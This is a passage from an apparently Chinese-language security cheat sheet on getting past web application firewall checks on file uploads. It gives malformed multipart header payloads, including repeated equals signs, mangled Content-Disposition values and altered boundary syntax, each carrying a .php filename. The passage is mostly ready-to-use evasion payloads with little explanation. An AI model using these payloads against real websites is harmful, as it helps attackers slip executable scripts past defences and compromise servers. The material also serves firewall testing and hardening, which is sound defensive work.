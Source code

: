 ###### 多个等号

在post中的内容中使用多个等号对文件上传没有影响

```
Content-Disposition: form-data; name=="file_x"; filename===="test.php"
```

##### 变换Content-Disposition的值

在某些waf解析的时候,认为Content-Dispostion的值一定是form-data,造成绕过,其实Content-Dispostion可以任意变换或为空

```
Content-Disposition: fOrM-DaTA; name="file_x"; filename="xx.php"
Content-Disposition: form-da+ta; name="file_x"; filename="xx.php"
Content-Disposition: fo    r m-dat a; name="file_x"; filename="xx.php"
Content-Disposition: form-dataxx; name="file_x"; filename="xx.php"
Content-Disposition: name="file_x"; filename="xx.php"
```

###### 畸形的boundary头部

boundary可以变换为如下形式,且不影响上传

**multipart/form-data大小写变换**

```
Content-Type: mUltiPart/ForM-dATa; boundary=----WebKitFormBoundarye111
```

**multipart/form-data与boundary之间可以使用空格分割,且中间可以插入任何值**

```
Content-Type: multipart/form-data boundary=----WebKitFormBoundarye111
Content-Type: multipart/form-data x boundary=----WebKitFormBoundarye111
Content-Type: multipart/form-data abcdefg boundary=----WebKitFormBoundarye111
Content-Type: multipart/form-data a\|/?!@#$%^() boundary=----WebKitFormBoundarye111
```

**multipart/form-data与boundary之间可以使用逗号分割,且中间可以插入任何值**

```
Content-Type: multipart/form-data,boundary=----WebKitFormBoundarye111
Content-Type: multipart/form-data,x,boundary=----WebKitFormBoundarye111
Content-Type: multipart/form-data,abcdefg,boundary=----WebKitFormBoundarye111
Content-Type: multipart/form-data,a\|/?!@#$%^(),boundary=----WebKitFormBoundarye111
```

**boundary之前可以直接加入任何值(php可行)**

```
Content-Type: multipart/form-data;bypass&123**{|}boundary=----WebKitFormBoundarye111
Content-Type: multipart/form-data bypass&123**{|}boundary=----WebKitFormBoundarye111
Content-Type: multipart/form-data,bypass&123**{|}boundary=----WebKitFormBoundarye111
```

**boundary末尾可以使用逗号或者分号隔开插入任何值**

```
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye111;123abc
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye111,123abc
```
